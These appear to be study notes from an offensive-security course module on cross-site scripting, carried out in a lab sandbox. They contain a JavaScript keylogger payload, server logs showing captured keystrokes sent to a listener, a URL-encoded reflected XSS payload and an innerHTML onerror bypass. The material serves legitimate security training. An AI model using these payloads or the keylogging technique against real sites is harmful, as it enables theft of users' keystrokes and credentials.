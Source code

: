 # Module 5: Cross-Site Scripting Introduction and Discovery

## Introduction to the Sandbox

### Accessing the Sandbox

_Start the VPN and start the VM. Add the IP to hosts file._

### Understanding the Sandbox

_Explaining the sandbox webpage._

## JavaScript Basics for Offensive Uses

### Syntax Overview

_Function example_

{% code overflow="wrap" %}
```javascript
01  function processData(data) {
02    data.items.forEach(item => {
03      console.log(item)
04    });
05  }
06
07  let foo = {
08    items: [
09      "Hello",
10      "Zdravo",
11      "Hola"
12    ]
13  }
14
15  processData(foo)
```
{% endcode %}

### Useful APIs

<figure><img src="../../../.gitbook/assets/20094dc9baed9b6df575673cfb6b74c2-xss_logging_values.png" alt=""><figcaption><p><em>Logging inputs</em></p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/b9242be15cc3fd2bdbe6b72e739ba4f5-xss_logKey.png" alt=""><figcaption><p>logKey function</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/df657d089803e60aa996555a4ca1d193-xss_key_strokes.png" alt=""><figcaption><p>Capturing Key stroke</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/7621b9c0c313107b672683b49046f8e6-xss_typing_into_eval.png" alt=""><figcaption><p>Typing into Eval</p></figcaption></figure>

_Starting HTTP listener_

```bash
kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

<figure><img src="../../../.gitbook/assets/01837014bc01c08fcecec07ff8080e34-xss_fetch.png" alt=""><figcaption><p>Using fetch</p></figcaption></figure>

_HTTP Server Log_

```bash
kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.16.174.4 - - [11/Aug/2021 19:15:53] "GET /hello HTTP/1.1" 404 -
```

_Original Keylogging Payload_

```javascript
function logKey(event){
	console.log(event.key)
}

document.addEventListener('keydown', logKey);
```

<figure><img src="../../../.gitbook/assets/437dcc360d5e8fd18daf0e3c5e7f8b53-xss_send_keystrokes.png" alt=""><figcaption><p>Sending keystrokes back</p></figcaption></figure>

_HTTP Server Log_

{% code overflow="wrap" %}
```bash
...
192.168.121.101 - - [11/Aug/2021 19:23:39] "GET /k?key=I HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:39] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:39] "GET /k?key= HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:39] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:39] "GET /k?key=l HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:40] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:40] "GET /k?key=i HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:40] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:40] "GET /k?key=k HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:40] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:40] "GET /k?key=e HTTP/1.1" 404 -
...
```
{% endcode %}

## Cross-Site Scripting - Discovery

### Reflected Server XSS

_Often found in locations where user input is sent via GET parameters._

<figure><img src="../../../.gitbook/assets/cd804f35779bc9bed8420412b35fc09b-xss_search_for_offsec.png" alt=""><figcaption><p>Searchin for "offsec"</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/3aa80dd4b3853bcef647f295b417874f-xss_inspecting_offsec.png" alt=""><figcaption><p>Inspecting "offsec"</p></figcaption></figure>

_It's inside a \<div> tag, it may be vulnerable. Testing with HTML injection has less potential for error — this doesn't always mean we can inject JavaScript but is a great indicator._

<figure><img src="../../../.gitbook/assets/c38829acbca8dde334c16cfa848cfcb2-xss_html_search_injection.png" alt=""><figcaption><p>Injecting HTML to Search</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/e6db736a3b67e25722bc21c5471781c4-xss_search_alert.png" alt=""><figcaption><p>Search Alert box</p></figcaption></figure>

_Encoded search payload_

<pre class="language-uri"><code class="lang-uri"><strong>search.php?s=%3Cscript%3Ealert(0)%3C/script%3E
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/839a8c89014b6ca0a38b39a08fbd6253-xss_search_alert_render.png" alt=""><figcaption><p>XSS rendered on Victim - Search</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/0a907278cd84c5a6e8cb523e88229c74-xss_reviewing_http_res.png" alt=""><figcaption><p>Reviewing HTTP Response in Burp Suite</p></figcaption></figure>

### Stored Server XSS

<figure><img src="../../../.gitbook/assets/3b768510a2088cd48f02b3aac2fded97-xss_leaving_comment.png" alt=""><figcaption><p>Leaving a comment</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/e79d52fa2a8641eae2ff3fee6dab98d4-xss_inspect_blog.png" alt=""><figcaption><p>Blog Comment Inspection</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/a8e0d4819141afdc59d271e5d9301f2c-xss_sanatized_comment.png" alt=""><figcaption><p>Sanitized Comment</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/109917b5a07b464eeab9142361bed148-xss_inspect_blog_comment.png" alt=""><figcaption><p>Inspecting Sanitized Comment</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/2f76c64e69690741ac7fa58ad2b68d22-xss_raw_html_blog.png" alt=""><figcaption><p>Raw HTML of Comment</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/8dc7bd6bea49768f8da2a8e9a31a76f0-xss_h1_username_blog.png" alt=""><figcaption><p>H1 in Username</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/b2409253b19b4e09b88c3c5d96266028-xss_rendred_h1_blog.png" alt=""><figcaption><p>Rendered H1</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/54e12cf9768bc3cf73346236bc6f2d83-xss_blog_xss_payload.png" alt=""><figcaption><p>XSS payload in Blog Comment</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/3c6ff6afb0096c7630fd86fb3d477058-xss_exploit_target_stored.png" alt=""><figcaption><p>Executing XSS Payload using Target User Browser</p></figcaption></figure>

### Reflected Client XSS

<figure><img src="../../../.gitbook/assets/534a8898c6caccd13434673067ff78f1-xss_survey_home.png" alt=""><figcaption><p>Survey Home Page</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/469260e639fd5db73090aad1f67b9e30-xss_survey_html_injection.png" alt=""><figcaption><p>Survey HTML Injection</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/3758e6d9ce4744aee8cc958b5d1ee1d5-xss_req_in_network.png" alt=""><figcaption><p>Finding Request in the Network Tools</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/32c93a5de4f2d0004d35ad8a57b6a3bd-xss_review_response_payload.png" alt=""><figcaption><p>Viewing the Response Payload</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/06af987c803283f6dea421e1efb5c5d7-xss_review_surveyjs.png" alt=""><figcaption><p>Reviewing Survey.js</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ad4e65e6ae7bdb8e6609bb2f35200201-xss_payload_client_fail.png" alt=""><figcaption><p>Payload not executing in Client XSS</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/87a0da7d64fffa2a393b6fd95e6b9f9f-xss_review_injection_point.png" alt=""><figcaption><p>Reviewing Injection Point</p></figcaption></figure>

_Mozilla's innerHTML Bypass_

```markup
const name = "<img src='x' onerror='alert(1)'>";
el.innerHTML = name; // shows the alert
```

<figure><img src="../../../.gitbook/assets/de953b819a8da726b2e37c5a857023a3-xss_innerHTML_exploit.png" alt=""><figcaption><p>Exploiting with Mozilla's Bypass</p></figcaption></figure>

### Stored Client XSS

<figure><img src="../../../.gitbook/assets/900769315d2ded28bab65698bcb39c2a-xss_survey_answers.png" alt=""><figcaption><p>Summary of Answers</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/05651f3853ee0457666b524f5c0f99b5-xss_html_in_survey.png" alt=""><figcaption><p>HTML in Survey</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/896892cac9bae046f89c835467c343ac-xss_rendered_html.png" alt=""><figcaption><p>Rendered HTML in Survey</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/025a1f0c2c689253dfe13e71dcc1b07c-xss_in_survey_stored.png" alt=""><figcaption><p>XSS Payload in Survey</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/9b5cb6820c36eaf6fd3f50876a05ecb0-xss_alert_on_result.png" alt=""><figcaption><p>Alert Box on Result Page</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/24021796c4d4a9894fc1d55383802a72-xss_survey_alert_victim.png" alt=""><figcaption><p>Alert Box in Victim's Browser</p></figcaption></figure>

